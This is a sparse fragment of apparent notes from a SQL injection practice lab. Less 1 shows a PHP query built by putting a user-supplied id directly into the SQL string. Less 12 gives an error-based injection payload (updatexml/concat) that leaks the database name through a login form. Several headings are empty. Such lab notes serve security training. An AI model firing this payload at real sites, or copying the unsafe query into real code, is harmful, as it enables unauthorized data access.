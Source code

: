 

## Less 1

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```



## Less 2


## Less 11

This lesson has a fully new window. A login form!

## Less 12



uname=aaaa") and updatexml(1,concat(0x7e,(select database()),0x7e),1) # &passwd=b&submit=Submit

